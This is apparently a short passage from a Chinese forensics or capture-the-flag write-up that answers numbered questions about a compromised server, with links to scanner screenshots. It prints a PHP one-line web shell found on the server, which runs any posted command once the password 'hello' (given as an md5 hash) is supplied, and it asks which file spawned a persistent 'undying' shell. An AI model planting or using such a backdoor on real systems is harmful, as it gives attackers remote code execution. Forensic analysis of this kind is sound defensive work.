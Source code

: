 [![](assets/1708919884-d673ec745847e706045d1b769956ca60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002633-fb626f7a-cc1e-1.png)

```plain
<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>
```

md5 解一下是 hello

3.不死马是通过哪个文件生成的，请提交文件名

接上面 d 盾扫出来的图

[![](assets/1708919884-43fa579808861296b549ce901c5b288b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240216002638-fe75a52e-cc1e-1.png)
